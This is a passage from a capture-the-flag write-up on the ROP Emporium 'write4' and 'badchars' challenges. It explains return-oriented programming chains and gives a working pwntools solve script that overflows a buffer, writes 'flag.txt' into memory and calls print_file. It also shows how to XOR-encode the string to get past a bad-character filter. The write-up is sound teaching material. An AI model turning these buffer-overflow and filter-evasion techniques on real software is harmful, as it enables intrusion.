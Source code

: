 `flag.txt` is exactly 8 bytes long, so it fits into a register. Using the gadget `pop r14; pop r15; ret`, we can pop an address in the `.data` section into `r14` and `flag.txt` into r15. I chose the start of the `.data` section as the address to use for this - it is not used by any other part of the program, and it is all zeroes, meaning that we do not have to worry about null terminating the string. We can then add `mov [r14], r15; ret` as the next part of the chain, allowing us to write the string to memory.

At that point, we can pass the address of `flag.txt` as an argument to `print_file()` via `rdi`, as we did with the previous challenges.

Final solve script:

```python
from pwn import *

pop_r14_r15 = 0x400690 # pop r14; pop r15; ret
mov_r14 = 0x400628 # mov [r14], r15; ret

pop_rdi = 0x400693 # pop rdi; ret
data_addr = 0x601028 # start of .data section

print_file = 0x400620 # call print_file

chal = process("./write4")
send_str = b'a'*40 + p64(pop_r14_r15) + p64(data_addr) + b'flag.txt' + p64(mov_r14) + p64(pop_rdi) + p64(data_addr) + p64(print_file)

print(chal.recvuntil(b'>'))
chal.sendline(send_str)
print(chal.recvall())
```

## badchars

This challenge is identical to the last one, except that we are prevented from using the characters `x`, `g`, `a`, and `.`. This means that we can no longer directly write `flag.txt` to the buffer - we have to obfuscate it somehow.

The useful gadgets for this challenge give us a clue on how to do this. We are given the gadget `xor byte ptr [r15], r14b ; ret`, so we can perform a single-byte XOR on an arbitrary value.

![](/assets/images/ropemporium/badchars_useful_gadgets.png)

To avoid the bad characters, we can XOR each byte of the input string with 0xff, then create a chain that performs the XOR again to restore the original values. At first, I tried to construct the chain like this: 

```python
deobfuscate_flag = b''
for addr in range(data_addr, data_addr + 8):
	deobfuscate_flag += p64(pop_r15) # pop r15; ret
	deobfuscate_flag += p64(addr)
	deobfuscate_flag += p64(xor_data) # xor byte ptr [r15], r14b ; ret
```
